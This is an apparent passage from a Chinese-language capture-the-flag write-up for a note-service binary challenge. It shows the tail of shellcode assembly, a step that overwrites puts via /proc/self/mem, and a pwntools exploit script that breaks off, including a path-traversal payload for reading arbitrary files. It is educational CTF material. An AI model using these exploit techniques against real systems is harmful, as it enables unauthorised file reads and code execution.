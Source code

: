             xor rdi, rdi
            mov dil, 0x1

            mov rsi, rsp

            xor rdx, rdx
            mov dl, 0x40

            syscall
        """
        ```
4. 接著我們就只要透過command 4的write note功能把構建好的shellcode，寫到/proc/self/mem對應的位置就好，也就是置換掉puts原本的操作，讓他再次call到puts的時候就會執行我們的shellcode

## Exploit - Arbitrary Read → Arbitrary Write → Shellcode
:::spoiler
```python
from pwn import *
from tqdm import *

context.arch = 'amd64'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

cmd_dic = {1:'Login', 2:'Register', 3:'New Note', 4:'Edit Note', 5:'Show Note'}
def dealing_cmd(r, cmd, note_name=b'test', content=b'test\n', offset=b'0', random='0'):
    r.recvlines(7)
    if cmd == 1 or cmd == 2:
        r.sendline(str(cmd).encode())
        r.sendlineafter(b'Username: ', b'sbk' + random.encode())
        r.sendlineafter(b'Password: ', b'sbk' + random.encode())
        if b'Success' in r.recvline():
            log.success(f'Command {cmd_dic[cmd]} Successful')
        else:
            log.error('Command Login Failed!!!')
    
    if cmd == 3:
        r.sendline(str(cmd).encode())
        r.sendlineafter(b'Note Name: ', note_name)
        r.sendlineafter(b'Content Length: ', content_len)
        r.sendlineafter(b'Content: ', content)
        if b'created' in r.recvline():
            log.success(f'Command {cmd_dic[cmd]} Successful')
        else:
            log.error(f'Command {cmd_dic[cmd]} Failed!!!')
    
    if cmd == 4:
        r.sendline(str(cmd).encode())
        r.sendlineafter(b'Note Name: ', note_name)
        r.sendlineafter(b'Offset: ', str(offset).encode())
        r.sendlineafter(b'Content Length: ', str(len(content)).encode())
        r.sendlineafter(b'Content: ', content)
        log.success('Done')
    
    if cmd == 5:
        r.sendline(str(cmd).encode())
        r.sendlineafter(b'Note Name: ', note_name)
        r.sendlineafter(b'Offset: ', offset)
        res = r.recv(128).decode().strip()
        return res

def read_any_file(file_name):
    payload = b'../../../../../../' + b'/' * (89 - len(file_name)) + file_name
    offset = 0
    res = ''
```